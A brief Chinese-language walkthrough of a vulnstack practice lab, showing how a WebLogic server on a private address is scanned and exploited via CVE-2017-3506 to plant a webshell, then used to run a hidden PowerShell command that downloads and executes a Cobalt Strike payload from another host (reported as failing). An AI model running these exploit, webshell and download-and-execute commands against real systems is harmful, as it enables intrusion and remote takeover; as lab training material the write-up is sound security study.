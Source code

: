 
![image-20230429120143693](vulnstack靶场系列二/image-20230429120143693.png)	



使用cve-2017-3506的exp扫描漏洞是否存在：`java -jar .\WebLogic-XMLDecoder.jar -u http://192.168.47.129:7001`

![image-20230429131419649](vulnstack靶场系列二/image-20230429131419649.png)



使用cve-2017-3506的漏洞利用exp：`java -jar .\WebLogic-XMLDecoder.jar -s http://192.168.47.129:7001 /wls-wsat/CoordinatorPortType11 shell.jsp`

![image-20230429132144382](vulnstack靶场系列二/image-20230429132144382.png)



访问写进去的webshell(shell.jsp)执行任意命令，命令执行成功

![image-20230429132027418](vulnstack靶场系列二/image-20230429132027418.png)



尝试远程加载cs的powershell命令：`http://192.168.47.129:7001/wls-wsat/shell.jsp?password=secfree&command=powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.155:80/a'))"`， 但是执行失败了，cs没有上线
